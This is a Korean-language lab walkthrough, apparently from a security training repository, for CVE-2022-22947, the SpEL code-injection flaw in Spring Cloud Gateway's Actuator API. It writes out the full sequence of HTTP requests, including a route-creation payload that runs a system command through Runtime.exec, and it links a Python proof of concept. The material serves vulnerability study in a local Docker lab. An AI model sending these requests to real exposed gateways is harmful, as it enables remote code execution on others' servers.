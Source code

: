 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

**Contributors**

-   [박천웅(@CheonWoong-Park)](https://github.com/CheonWoong-Park)

Spring Cloud Gateway는 Spring WebFlux 위에 API Gateway를 구축하기 위한 라이브러리입니다.

3.1.0 및 3.0.6 이전 버전의 Spring Cloud Gateway를 사용하는 애플리케이션은 Gateway Actuator EndPoint를 사용하도록 설정되고 노출되며 보안이 해제된 경우 취약점이 발생합니다. 
원격 공격자는 악의적으로 조작된 요청을 수행하여 원격 호스트에서 임의의 원격 실행을 허용할 수 있습니다.

참고자료:

- <https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>
- <https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.md#spring-cloud-gateway-actuator-api-spel-code-injection-cve-2022-22947>

## 취약점 환경

먼저, Spring Cloud Gateway 3.1.0을 사용하는 서버를 구축 해야합니다.
아래 내용은 WSL2(Ubuntu)환경에서 실습하였습니다.

docker-compose.yml을 기반으로 도커 컨테이너를 구축합니다.

```
docker-compose up -d
```

서버가 시작되면, http://localhost:8080/ 으로 서버가 돌아갑니다.

## 취약점 실습

작성자는 포스트맨을 이용하였습니다.

1) spring cloud의 Andpoint 취약점을 공격하기 위해 라우터를 추가하는 SpEL식을 리퀘스트합니다.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

2) SpEL 표현식이 작성된 라우터가 서버에 추가 된 후, 게이트웨이를 새로고침 합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

3) 결과를 받아 오도록 GET메소드 리퀘스트를 보냅니다.

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

4) 그 후, 공격 라우터를 삭제합니다.

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

5) 다시 게이트웨이를 새로고침합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

## POC 작성

파이썬을 이용하여 위 단계들을 한번에 이룰 수 있도록 코드를 작성하였습니다.
poc.py(https://github.com/CheonWoong-Park/whitehat-school-vulhub/blob/main/spring%20/CVE-2022-22947/poc.py) 참고

## POC 출력 결과 
```
python3 poc.py http://localhost:8080
```

![](5.png)
